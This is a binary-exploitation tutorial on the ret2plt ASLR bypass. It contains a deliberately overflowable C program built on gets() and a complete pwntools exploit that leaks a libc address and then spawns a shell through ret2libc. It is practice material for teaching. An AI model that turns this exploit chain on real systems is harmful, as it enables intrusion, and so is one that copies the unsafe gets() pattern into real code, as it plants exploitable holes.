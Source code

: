 # ret2plt ASLR bypass

## Overview

This time around, there's no leak. You'll have to use the ret2plt technique explained previously. Feel free to have a go before looking further on.

{% file src="../../.gitbook/assets/ret2plt.zip" caption="ret2plt - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    puts("Come get me");

    char buffer[20];
    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

## Analysis

We're going to have to leak ASLR base somehow, and the only logical way is a ret2plt. We're not struggling for space as `gets()` takes in as much data as we want.

## Exploitation

All the basic setup

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```

Now we want to send a payload that leaks the real address of `puts`. As mentioned before, calling the PLT entry of a function is the same as calling the function itself; if we point the parameter to the GOT entry, it'll print out it's actual location. This is because in C string arguments for functions actually take a **pointer** to where the string can be found, so pointing it to the GOT entry \(which we know the location of\) will print it out.

```python
p.recvline()        # just receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

But why is there a `main` there? Well, if we set the return address to random jargon, we'll leak libc base but then it'll crash; if we call `main` again, however, we essentially restart the binary - except we now know `libc` base so this time around we can do a ret2libc.

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

Remember that the GOT entry won't be the only thing printed - `puts`, and most functions in C, print **until a null byte**. This means it will keep on printing GOT addresses, but the only one we care about is the first one, so we grab the first 4 bytes and use `u32()` to interpret them as a little-endian number. After that we ignore the the rest of the values as well as the `Come get me` from calling `main` again.

From here, we simply calculate libc base again and perform a basic ret2libc:

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],            # exit is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

And bingo, we have a shell!

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 64-bit

You know the drill - try the same thing for 64-bit. If you want, you can use pwntools' ROP capabilities - or, to make sure you understand calling conventions, be daring and do **both** :P

{% file src="../../.gitbook/assets/ret2plt-64.zip" caption="ret2plt - 64-bit" %}

